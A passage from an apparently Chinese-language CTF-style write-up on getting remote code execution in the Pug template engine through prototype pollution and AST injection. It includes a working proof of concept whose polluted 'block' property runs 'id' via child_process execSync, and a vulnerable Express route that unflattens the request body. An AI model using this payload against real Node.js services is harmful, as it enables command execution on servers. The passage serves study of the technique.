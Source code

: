 那么我们通过 AST Injection + Prototype Pollution 即可实现 RCE

```bash
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);
```

## Attack example

express 开发的 web 服务，其中一个 CGI 如下：  
(注，镜像已经上传，本地有 docker 环境可直接运行 `docker run -d --restart=always -p 8007:1337 rayepeng/blitzprop:latest` )

```bash
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

    if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the name of an existing song.'
        });
    }
});
```

本地跑起来后运行在 1337 端口：
